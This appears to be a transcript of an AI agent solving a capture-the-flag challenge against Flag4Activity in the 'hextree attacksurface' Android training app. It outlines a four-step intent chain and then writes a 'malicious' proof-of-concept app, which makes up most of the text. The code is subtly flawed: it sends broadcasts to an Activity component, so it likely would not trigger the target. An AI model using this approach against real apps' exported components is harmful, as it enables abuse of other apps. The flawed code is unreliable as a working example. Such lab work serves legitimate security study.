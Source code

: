 The goal is to reach the `GET_FLAG` state and then send *any* intent to trigger the `success` method.

Here's the attack chain:

1.  Send `PREPARE_ACTION` to transition from `INIT` to `PREPARE`.
2.  Send `BUILD_ACTION` to transition from `PREPARE` to `BUILD`.
3.  Send `GET_FLAG_ACTION` to transition from `BUILD` to `GET_FLAG`.
4.  Send a final, arbitrary intent (e.g., with an empty action) to transition from `GET_FLAG` to `REVERT` and trigger the flag.

Now, I will craft a malicious Android application to send these intents. I'll create two files: `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousflag4poc;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '    private static final String PREPARE_ACTION = '
            '"PREPARE_ACTION";\n'
            '    private static final String BUILD_ACTION = "BUILD_ACTION";\n'
            '    private static final String GET_FLAG_ACTION = '
            '"GET_FLAG_ACTION";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '\n'
            '        // Step 1: Send PREPARE_ACTION\n'
            '        sendAction(PREPARE_ACTION);\n'
            '\n'
            '        // Step 2: Send BUILD_ACTION\n'
            '        sendAction(BUILD_ACTION);\n'
            '\n'
            '        // Step 3: Send GET_FLAG_ACTION\n'
            '        sendAction(GET_FLAG_ACTION);\n'
            '\n'
            '        // Step 4: Send a final intent to trigger the flag\n'
            '        sendAction(""); // Empty action\n'
            '\n'
            '        Log.i("MaliciousFlag4PoC", "Intents sent");\n'
            '        finish(); // Close the activity after sending intents\n'
            '    }\n'
            '\n'
            '    private void sendAction(String action) {\n'
            '        Intent intent = new Intent();\n'
            '        intent.setComponent(new ComponentName(TARGET_PACKAGE, '
            'TARGET_ACTIVITY));\n'
            '        intent.setAction(action);\n'
            '        sendBroadcast(intent);\n'
            '        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n'
            '    }\n'
            '}\n',
 'file_path': 'MaliciousFlag4PoC.java'})
